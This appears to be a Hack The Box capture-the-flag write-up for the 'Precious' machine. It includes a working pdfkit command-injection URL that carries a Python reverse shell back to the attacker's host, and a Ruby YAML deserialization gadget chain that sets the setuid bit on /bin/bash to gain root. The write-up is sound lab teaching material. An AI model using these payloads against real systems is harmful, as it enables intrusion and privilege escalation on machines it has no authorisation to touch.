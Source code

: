 # Precious
https://app.hackthebox.com/machines/Precious/

## Port scan

### Tool used: nmap
<br>

```
nmap -p22,80 -sV precious.htb

Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 18:00 CST
Nmap scan report for precious.htb (10.129.78.23)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
```

First, we take a look at the website:<br><br>

![web](./docs/precious/precious_01_web.png)

If we put in a site to submit, nothing happens. However, once we add a character to the end of the URL (such as a semicolon), it causes the PDF to generate. <br><br>

![burp](./docs/precious/precious_02_burp.png)

Using *Burp*, we can look at the response and see that the file is generated with pdfkit v0.8.6. Alternatively (and more easily), we can just look at the PDF properties and see the same information.<br><br>

![response](./docs/precious/precious_03_response.png)

A quick search of "pdfkit v0.8.6" reveals that the application is vulnerable to command injection (CVE-2022-25765):

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Using Reverse Shell Generator (https://www.revshells.com/) we can create a *python* command to append to the URL in order to create a reverse shell:<br><br>

```
http://10.10.14.222/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.222",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

![shell](./docs/precious/precious_04_shell.png)

Browsing **/home**, we see that there are two users: *henry* and *ruby*. The user flag is in henry's folder, but we do not have permission to read it. Looking around in ruby's folder, we see **.bundle**. Inside this foldder, there is a config file that contains credentials for *henry*:<br><br>

![config](./docs/precious/precious_05_config.png)

Using these credentials, we are able to SSH as *henry* and obtain the user.txt flag.

**user.txt**

```
ba531947************************
```

Next, we see what kind of privileges *henry* has:<br><br>

```
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looking at "update_dependencies.rb", we can see that it uses YAML.load, which will allow us to create a payload inside a yml file to perform remote code execution.<br><br>

**update_dependencies.rb**

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We create "dependencies.yml", based on the example from https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#ruby. To test the functionality, we changed "git_set" to "id" and execute update_dependencies.rb:<br><br>

```
sudo /usr/bin/ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Now that we know our remote code execution works, we change "git_set" to modify the permissions of */bin/bash* to escalate our privileges:<br><br>

**dependencies.yml**

```ruby
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve 
```

After executing update_dependencies.rb again, we are able to run */bin/bash* as root, and capture the root.txt flag.<br><br>

```
henry@precious:~$ /bin/bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
```

**root.txt**

```
07c5d644************************
```